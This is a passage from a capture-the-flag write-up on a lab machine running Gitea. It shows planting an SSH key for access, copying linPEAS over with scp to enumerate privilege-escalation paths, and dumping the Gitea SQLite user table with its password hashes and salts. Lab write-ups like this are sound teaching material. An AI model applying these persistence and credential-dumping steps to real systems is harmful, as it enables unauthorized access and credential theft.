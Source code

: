 Let's add our own key (or generate one if you haven't done it already) to authorized keys. Now we should be able to transfer files to the machine and also upgrade our own shell.

## Running LinPeas
We can transfer linpeas from our host machine using:
```bash
scp  -i id_rsa /opt/scripts/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh git@$IP:/dev/shm
```

Now let's run it and see if anything pops up. Low and behold (yeah apparently I say this now, great additon to my personality kekw), something indeed does. We find the sqlite database that's running on gitea, also there seems to be a backup repository for the root user too. Most likely it's the case that they might be hidden and only accessible through admin access on gitea. However, I don't like working on hunches so let's access the SQLite database and verify our hunch ;)
Transfer over linpeas, interesting output

![linpeas-out.png](attachments/linpeas-out.png)

## Enumerating sqlite3
We can access the repository by navigating to the directory and launching sqlite3.
```
[git@git-and-crumpets tmp]$ sqlite3 /var/lib/gitea/data/gitea.db
```

### Enumerating Users
```
1|hydra|hydra||hydragyrum@example.com|0|enabled|9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4|pbkdf2|0|0|0||0|||XGySX7uBlc|3C4NzJWN9e|en-US||1618386984|1621615239|1621614217|0|-1|1|1|0|0|0|0|0|d91f03c868d38ecf84ab3cc54f876106|hydragyrum@example.com|1|0|0|0|1|0|0|0|0|unified|arc-green|0
2|root|root|groot|root@example.com|0|enabled|2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9|pbkdf2|0|0|0||0|||2VK8fSxvIZ|5e5xPrzvBr|en-US||1618391049|1621716065|1621716065|1|-1|1|0|1|0|0|0|0|b2b218891f86ea980812a5b934ecec1a|root@examle.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
3|scones|scones||withcream@example.com|0|enabled|8d0386b217e0f1ad5a1012d879ce93c9d77fd79d888410fdee9e76ec58d6fa017042906dd9a2ea498d3fd5a7486a73875660|pbkdf2|0|0|0||0|Her Majesty's Secret Service||IF60pw0rVc|13y4Vtc2AH|en-US|I like scones.|1618492621|1625329047|1625329047|0|-1|1|1|0|1|0|0|0|3fc2cde6ac97e8c8a0c8b202e527d56d|jackel@example.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
4|test|test||test@test.thm|0|enabled|d3463d9c205751364af7850bca7956d0f5cc0eb125a097db54fd0087eec31cec1912245e57fdfc53423a89e6684a15f8939a|pbkdf2|0|0|0||0|||oe4oKzc3mk|EgtShiimON|en-US||1618526457|1618526530|1618526457|0|-1|1|0|0|0|0|0|0|15c9bc2cfbc7b7fd0b627422d8189173|test@test.thm|0|0|0|0|0|0|0|0|0|unified|gitea|0
5|tech|tech||test@test.com|0|enabled|284fa22f56ab47b77541d631b8ed858c80884364ed6202b5f960b54f43cf4a396f41dfc8fd075df648ea242d25a0336ffed1|pbkdf2|0|0|0||0|||3cK2mlF0l6|CBZhwzom1d|en-US||1625324085|1625324085|1625324085|0|-1|1|0|0|0|0|0|0|b642b4217b34b1e8d3bd915fc65c4452|test@test.com|0|0|0|0|0|0|0|0|0||gitea|0
```
